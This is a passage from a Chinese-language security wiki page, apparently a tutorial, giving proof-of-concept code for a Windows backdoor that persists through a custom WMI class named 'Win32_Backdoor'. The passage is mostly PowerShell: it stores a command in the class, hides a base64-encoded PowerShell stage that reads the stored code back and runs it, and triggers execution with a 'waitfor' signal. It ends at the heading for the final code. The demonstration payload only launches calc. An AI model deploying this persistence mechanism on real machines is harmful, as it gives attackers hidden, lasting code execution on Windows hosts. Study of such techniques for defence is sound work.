 ![](images/security_wiki/15906330967762.png)


根据以上思路，POC如下：

后门代码：

（管理员权限）

```bash
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& waitfor persist ```&```& powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() 

```

**注：**

存在两次转义字符

```
 ``用来表示`

```

安装代码：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec

```

激活命令：

```
waitfor /s 127.0.0.1 /si persist

```

实际测试如下图

![](images/security_wiki/15906331152251.png)


存在bug，导致powershell.exe无法正常退出，进程在后台残留

所以需要添加一段代码，用来结束进程powershell.exe

**注：**

根据逻辑关系，结束powershell.exe的代码要写在`powershell -nop -W Hidden -E ...`之前

### 最终，完整POC代码如下：
